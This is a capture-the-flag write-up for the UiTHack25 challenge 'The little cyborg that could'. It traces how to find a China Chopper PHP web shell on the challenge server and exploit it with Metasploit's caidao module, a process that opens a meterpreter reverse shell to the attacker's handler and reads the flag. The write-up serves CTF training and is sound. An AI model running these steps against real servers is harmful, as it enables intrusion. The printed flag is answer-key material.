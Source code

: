 # The little cyborg that could

>> Pwn - hard
> Some punks have been messing with the Citizen tracking servers.
> They keep getting in and messing with the data.
>
> Find how out how they keep getting in, if not you are fired!
>
> URL: <https://uithack-2.td.org.uit.no:9003/index.html>

## Challenge Description

The challenge is based upon the very famous China Chopper web shell, discussed in the mandiant report [1].
The challenge is designed to test the participants' ability to identify and apply a web shell exploit.  
To help the participants, the challenge provides a testing shell which returns the input data back to the user.  

Trying to lock down the server with a vurnerability as dangerous as the China Chopper is no small feat.
Because of the shear number of ways this web shell can be exploited, we do expect to get pwned.

### Author solution

When visiting the website, we are greeted with the pwn notice from Nexus Anarchists. Here a vital clue is given that the server has already been compromised, and we are given a password `NEXUSANARCHY2337`.  
Next step is to find where the password can be used.

In the source code of the website, we find a comment with a link with the text `Admin`.

```html
<!-- <li><a href="/html/hello.html">Admin</a></li> -->
```

Visiting the link, we are with a page with several links to different files.

```html
Hello world!
<br>

Dave's bookmarks:<br>

<a href="/admin/flag.txt">flag</a><br>
<a href="/gui_shell.php">mgmt</a><br>
<a href="/admin/info.php">info</a><br>
<a href="/admin/">admin console</a><br>
```

Unfortunately, the `flag.txt` file is not accessible, as well as the mgmt interface!?.  
From the `info.php` file, we can see that the server is running `Apache2 with php (Debian)`.  
However, the `admin console` link is interesting. Where we find this file listing

![admin](admin.png)

There are several system info files and some `.conf` files. However, the `323d09c08a72717bbec71f172e5f6532.php` file is interesting, seems like a filehash. Googling the filename shows no results, however duckduckgo shows shows several results, albeit none of the results are relevant. Testing the hash on virustotal shows that the file is a known PHP web shell [2].

Reading up on the China Chopper web shell, we learn several ways to exploit the web shell [1][3][4]. However, the `@eval` exploit chain is quite complex and requires a fair bit of work to get working.
We do not really want to create our own client, and using the original `caidao` client is not recommended. Instead we can use the Metasploit module [`exploit/multi/http/caidao_php_backdoor_exec`](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/http/caidao_php_backdoor_exec.md) to exploit the web shell using the password provided earlier [5].

```
msf6 > use exploit/multi/http/caidao_php_backdoor_exec
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/caidao_php_backdoor_exec) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf6 exploit(multi/http/caidao_php_backdoor_exec) > set rport 8080
rport => 8080
msf6 exploit(multi/http/caidao_php_backdoor_exec) > set PASSWORD NEXUSANARCHY2337
PASSWORD => NEXUSANARCHY2337
msf6 exploit(multi/http/caidao_php_backdoor_exec) > set TARGETURI /admin/323d09c08a72717bbec71f172e5f6532.php
TARGETURI => /admin/323d09c08a72717bbec71f172e5f6532.php
msf6 exploit(multi/http/caidao_php_backdoor_exec) > check
[+] 127.0.0.1:8080 - The target is vulnerable.
msf6 exploit(multi/http/caidao_php_backdoor_exec) > exploit
[*] Started reverse TCP handler on 10.33.1.32:4444 
[*] Sending exploit...
[*] Sending stage (40004 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (10.33.1.32:4444 -> 172.17.0.2:58984) at 2025-02-24 22:25:26 +0100

meterpreter > ls
Listing: /var/www/admin
=======================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
101755/rwxr-xr-x  217   fil   2013-06-06 14:01:00 +0200  323d09c08a72717bbec71f172e5f6532.php
101755/rwxr-xr-x  78    fil   2025-02-24 19:45:05 +0100  README.md
101755/rwxr-xr-x  7178  fil   2025-02-24 22:16:46 +0100  apache2.conf
101755/rwxr-xr-x  335   fil   2025-02-24 22:16:46 +0100  docker-php.conf
101755/rwxr-xr-x  54    fil   2025-02-24 19:45:05 +0100  flag.txt
101755/rwxr-xr-x  19    fil   2025-02-24 19:45:05 +0100  info.php
101755/rwxr-xr-x  267   fil   2025-02-24 22:16:46 +0100  os-release
101755/rwxr-xr-x  254   fil   2025-02-24 21:47:49 +0100  test.php
101755/rwxr-xr-x  1074  fil   2025-02-24 22:13:30 +0100  uithack.conf

meterpreter > cat flag.txt
UiTHack25{02_quota_revoked_please_submit_for_disposal}
```

### References

[1] <https://www.mandiant.com/sites/default/files/2021-09/rpt-china-chopper.pdf>\
[2] <https://www.virustotal.com/gui/file/c4bfc3d39c1d01fa01b2100f1e1c8a58e74a2164fe6fae3c320d23ca3682e058/detection>\
[3] <https://informationonsecurity.blogspot.com/2012/11/china-chopper-webshell.html>\
[4] <https://www.exploit-db.com/docs/27654>\
[5] <https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/http/caidao_php_backdoor_exec.md>